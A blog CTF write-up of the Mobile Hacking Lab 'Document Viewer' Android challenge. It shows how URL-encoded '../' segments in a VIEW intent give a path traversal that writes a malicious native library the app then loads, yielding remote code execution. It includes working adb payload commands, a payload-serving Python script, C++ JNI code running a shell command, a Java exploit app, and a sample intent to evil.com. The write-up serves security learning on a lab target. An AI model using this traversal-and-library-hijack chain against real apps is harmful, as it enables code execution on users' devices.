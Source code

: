 ```yaml
---
title:  "Mobile Hacking Lab - Document Viewer Writeup"
date:   2024-01-22T16:27:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Document Viewer](https://www.mobilehackinglab.com/course/lab-document-viewer-rce) challenge from Mobile Hacking Lab. 

## Static Analysis
Instead of solving challenge on Corellium instance,i downloaded base.apk from lab and solved on my local setup with Genymotion emulator.

When we open the app in emulator, it opens a page with "load pdf" button. When we press the button, it opens the file manager for us to select a pdf file. Let's open it with jadx to understand the app.

![](./assets/images_mhl_documentviewer/manifest.png)

When we examine the manifest file, we see that an intent filter is defined for MainActivity. To properly trigger this activity we need to send intent with http/https or file scheme and VIEW action. 
```bash
# Sample intent
adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://evil.com
```
But we need to know what happened when this activity triggered. To undestand this, lets analyze MainActivity

![](./assets/images_mhl_documentviewer/mainactivity.png)
 
Inside the onCreate function, 3 method called after setting the view of activity. After that, if `proFeaturesEnabled` boolean is true, `initProFeatures` function will be called and as seen on line 29, `initProFeatures` is loaded from native library.

Let's analyze the functions one by one. I will skip the setLoadButtonListener function because, as the name suggests, in this function, after pressing the button, the path of the selected pdf file is taken, the file is processed and displayed on the screen.

### handleIntent Function

![](./assets/images_mhl_documentviewer/handleIntent.png)

handleIntent function handle the coming intent and after checking the action and uri, sends the uri to CopyFileFromUri function. After copying file from uri, it renders the pdf. So where and how does it copy the file from the uri?

![](./assets/images_mhl_documentviewer/copyFromUri.png)

copyFileFromUri fıunction is responsible for parsing the uri that comes with intent. It takes the last part of url with getLastPathSegment and uses it as filename. If last part is empty, filename will be "download.pdf". After that, we will see the line started with BuildersKt. I didnt write any line of kotlin code before and i searched that method on google. According to [this documentation](https://javadoc.io/doc/org.jetbrains.kotlinx/kotlinx-coroutines-core/1.1.1/kotlinx/coroutines/BuildersKt.html), launch method start a new coroutine without blocking current thread. In documentation, last argument of launch function is the code that will run when coroutine start but in jadx the last arg is null.

![](./assets/images_mhl_documentviewer/coroutine1.png)

As i understand (just guessing) when we created this coroutine, firstly it will set variables with arguments and call the invoke function( overridden [Function2](https://github.com/JetBrains/kotlin/blob/2fdc8b6c147462a09fa770cb8cb3aeffe53f3e9e/libraries/stdlib/jvm/runtime/kotlin/jvm/functions/Functions.kt#L22)). Inside the invoke function, invokeSuspend will be called. (If any kotlin developer is reading this, I would be very happy if he/she could tell me the meaning of this piece of code :D)

![](./assets/images_mhl_documentviewer/coroutine2.png)

invokeSuspend function will download file from given url and save it as `outfile`. 

### loadProLibrary Function

![](./assets/images_mhl_documentviewer/loadprolib.png)

This functioon tries to load a native library named `libdocviewer_pro.so` from `libraryfolder` directory. 
```java
getApplicationContext().getFilesDir() -> /data/data/com.mobilesecuritylab/files
Build.SUPPORTED_ABIS[0] -> x86_64 (for genymotion vm on my pc)

Final lib path -> "/data/data/com.mobilesecuritylab/files/native-libraries/x86_64/libdocviewer_pro.so"
```
If native library succesfully loaded, `proFeaturesEnabled` boolean will be settled as true. But the problem here is that this app doesn't have any native library inside itself. Because of that when you run the app you will see the error log on logcat. If app can find the native lib, it will call the `initProFeatures` in MainActivity.(İts important for exploitation part :))

## Finding vulnerability

When analyzing the apk we saw that this apk can load pdf files from given url and after that trying to load a library file that does not exist. If we can make the application load the library file we wrote maybe we can code execution with this application's permissions. To achive this code execution we need to find directory traversal to write our file the native lib directory. 

Lets get back to our "intent" :) I wrote a small python script to serve my testing files on localhost. It will return the pdf file to coming requests.

```py
#proudly stolen from : https://stackoverflow.com/questions/46105356/serve-a-file-from-pythons-http-server-correct-response-with-a-file
from http.server import BaseHTTPRequestHandler, HTTPServer
class MyHackyServer(BaseHTTPRequestHandler):

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        exploit_file = open('testo.pdf', 'rb')
        self.wfile.write(exploit_file.read())
        self.end_headers()


myServer = HTTPServer(('localhost', 1234), MyHackyServer)
myServer.serve_forever()

```
```bash
adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://10.0.3.2:1234/testo.pdf"

# 10.0.3.2 is the address of localhost of host machine for genymotion, if you are using Android Studio emulators, this ip will be 10.0.2.2 for you.
```
[![](https://img.youtube.com/vi/5nOURaJbibQ/hqdefault.jpg)](https://www.youtube.com/watch?v=5nOURaJbibQ)

As you can see in video, app gets the url from our intent and download our test file from server. After that it saves this file as "testo.pdf" in Downloads folder and render the file. For writing file to another directory we can try path traversal with `../` characters.  

![](./assets/images_mhl_documentviewer/lfi_test_1.png)

I gave the app's local storage to save the file but it saved the file in the Downloads folder again. getLastPathSegment fucntion parsed the our uri with `/` chars and file saved with original name. Lets take a look at [source code of getLastPathSegment](https://cs.android.com/android/platform/superproject/main/+/main:frameworks/base/core/java/android/net/Uri.java;l=1076;drc=f5f71ff8fd1c5b1b39a28cb1585c7a0a097aa1c8;bpv=0;bpt=1)

![](./assets/images_mhl_documentviewer/getlastpathsegment.png)

It gets the segments of uri and returns the last one. For getting segments it calls [getPathSegments function](https://cs.android.com/android/platform/superproject/main/+/main:frameworks/base/core/java/android/net/Uri.java;l=2191;drc=f5f71ff8fd1c5b1b39a28cb1585c7a0a097aa1c8).

![](./assets/images_mhl_documentviewer/getPathSegments.png)

This function gets uri and parses with `/` characters and decode the strings between slashes. As i understand, the decoding process applied one time for every segment. İf we give our malicious url as url-encoded, this function will split our url from the slash and return the encoded part  as last segment after decoding. Lets send intent with encoded url.

```bash
adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://10.0.3.2:1234/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Ftest.pdf"

# the encoded part after the port number will be decoded and returned as last segment
```
![](./assets/images_mhl_documentviewer/lfi_test_2.png)

Yes! It worked. We can write file into the application directory. Next step is preparing a proper library file and write into a native lib folder.

For creating my native library, i created a c++ project with same name of target app in Android Studio. After that i changed the given c44 file little bit and added my hacky `initProFeatures` function. During this steps,  i watched [Laurie's video](https://www.youtube.com/watch?v=87uMi7L-3Hc)(thx a lot for great videos) about translating java code into native code on Android. Here is my native lib code:
```c++
#include <jni.h>
#include <string>

extern "C" JNIEXPORT jstring JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_stringFromJNI(
        JNIEnv* env,
        jobject /* this */) {
    std::string hello = "Hello from C++";
    return env->NewStringUTF(hello.c_str());
}


extern "C" JNIEXPORT void JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_initProFeatures(JNIEnv* env, jobject /* this */) {
    system("echo \"hacked by sh4d0wless\" > /data/data/com.mobilehackinglab.documentviewer/hacked.txt");
}
```
After building apk, i extracted the x86_64 version of this lib file with apktool and putted it to directory that my python server running.(Also changed the file name inside python script with libdocviewer_pro.so)

Here is the PoC:

```bash
adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://10.0.3.2:1234/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Fx86_64%2Flibdocviewer_pro.so"
```

[![](https://img.youtube.com/vi/rpgpSyrlfzo/hqdefault.jpg)](https://youtu.be/rpgpSyrlfzo)

It works :)

If you want to create an app for exploitation instead of adb commands, here is the code that i wrote:
```java
package com.mobilehackinglab.dv_exploit;
import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Uri uri = Uri.parse("http://10.0.3.2:1234/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Fx86_64%2Flibdocviewer_pro.so");
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setClassName("com.mobilehackinglab.documentviewer","com.mobilehackinglab.documentviewer.MainActivity");
        intent.setData(uri);
        startActivity(intent);
    }
}
```
And here is the PoC video:

[![](https://img.youtube.com/vi/LJ0DPDG4Tw0/hqdefault.jpg)](https://youtu.be/LJ0DPDG4Tw0)


NOTES:
- App trigger the loading of the native lib on start, because of that we need to run the app for second time to trigger our exploit code.
- We dont have to write our code inside the `initProFeatures` function. We can use the JNI_OnLoad fucntion to trigger our shell commands. Because JNI_OnLoad called when library loaded([reference](https://docs.oracle.com/javase/8/docs/technotes/guides/jni/spec/invocation.html#JNJI_OnLoad)). I learned this information from [this](https://youtu.be/GQ7bwUOmVqk?list=PLwP4ObPL5GY_dBI_lSwBzKM4zxP4mWSqK&t=2447) twitch stream. 

Thanks for reading :) See you in next writeup!